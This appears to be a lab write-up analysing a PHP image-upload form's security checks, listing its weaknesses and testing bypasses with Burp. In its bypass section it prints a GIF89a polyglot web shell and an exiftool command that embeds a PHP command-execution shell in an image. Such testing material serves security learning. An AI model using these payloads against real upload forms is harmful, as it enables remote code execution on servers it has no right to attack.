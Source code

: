 ### 📌 Overview
This version uses multiple security checks: file extension, content validation via `getimagesize()`, and file size. These mitigations make it significantly harder to bypass. However, files are still stored in a public directory and filename sanitization is weak.

---

### 🔍 Vulnerabilities Identified

```markdown
🔒 Vulnerability | ❌ Problem Description  
---|---  
Filename Injection | `basename()` used but no sanitization (e.g., `evil.php.jpg`)  
Executable Upload Directory | Files still stored in a web-accessible directory  
No Randomized Names | File collisions or overwrite risks  
```

---


### 2️⃣ Exploitation Phase: Manual or Automated

```markdown
🔨 Tool Used: Manual Upload, Burp  
🔧 Setup: Attempt to upload `shell.php.jpg` with embedded PHP  
🔁 Payload: Upload double extension file  
🎯 Success Indicator: Should fail (good), but still test for edge cases  
📸 Screenshot: 📸 attempted file rejected
```

---
###🔓 Advanced Bypass: GIF89a / Exif / Polyglot Upload
✅ GIF89a Polyglot Payload (valid image + PHP)

### 4️⃣ Risk & Real-World Impact
```markdown
GIF89a;
<?php system($_GET['cmd']); ?>
```
Save as .gif and rename to .gif.php.jpg or .jpg.

✅ Exif Injection via exiftool

```markdown
exiftool -Comment='<?php system($_GET["cmd"]); ?>' legit.jpg
mv legit.jpg shell.php.jpg
```

```markdown
🧠 Exploit Impact | 🎯 Description  
---|---  
Filename Abuse | Attacker may try to bypass with `php.jpg` if Apache misconfigured  
Race Conditions | Lack of filename randomization enables overwrite attacks  
Residual Attack Surface | Public path still exposes files to attacker enumeration  
```

---